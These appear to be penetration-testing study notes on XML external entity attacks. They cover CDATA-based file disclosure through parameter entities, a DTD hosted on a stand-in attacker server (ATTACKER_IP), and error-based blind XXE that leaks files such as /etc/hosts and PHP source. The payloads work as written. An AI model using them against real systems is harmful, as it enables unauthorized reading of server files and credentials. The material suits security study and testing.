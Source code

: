### **1. CDATA Exfiltration (Cross-Backend File Disclosure)**

- Used when file content **breaks XML format** (e.g., contains special characters)
- Wrap file content inside `<![CDATA[ ... ]]>` to treat it as raw data

#### **Basic Idea**:

- Define `begin`, `file`, and `end` entities
- Join them to form: `<![CDATA[ + FILE_CONTENT + ]]>`

**Note**: Cannot directly join internal and external entities in XML. Use **Parameter Entities** (%entity;)

---

### **2. External Parameter Entity Injection (via DTD)**

#### **Steps**:

1. **Create DTD file (xxe.dtd)**:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

2. **Host it locally**:
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

3. **Send malicious XML**:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %xxe;
]>
<email>&joined;</email>
```
- Bypasses restriction on joining internal/external entities
- **Outputs file content in raw form** without needing base64 encoding

---

### **3. Error-Based XXE (When No Output is Reflected)**

Used when **XML response is blind**, but **errors are shown**

#### **Detection**:
- Send malformed XML or reference a non-existent entity
- Look for backend **error stack traces** with path info

#### **Technique**:
1. **Create DTD (xxe.dtd)**:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

2. **Send malicious XML**:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- Server throws an **error for non-existent entity**
- Error includes **path with actual file content**

Can be adapted to read other files (e.g., PHP source, keys)

---

### **4. Notes & Limitations**

- CDATA trick works across web app backends (PHP, Python, Java, etc.)
- Error-based XXE is **less reliable**:
    - May have output length limits        
    - Special characters may break parsing

- Works only if:
    - Web server **displays detailed errors**
    - **DTD fetching** is allowed (via external request)

- Some web servers block **entity loops** or **file inclusion** for safety

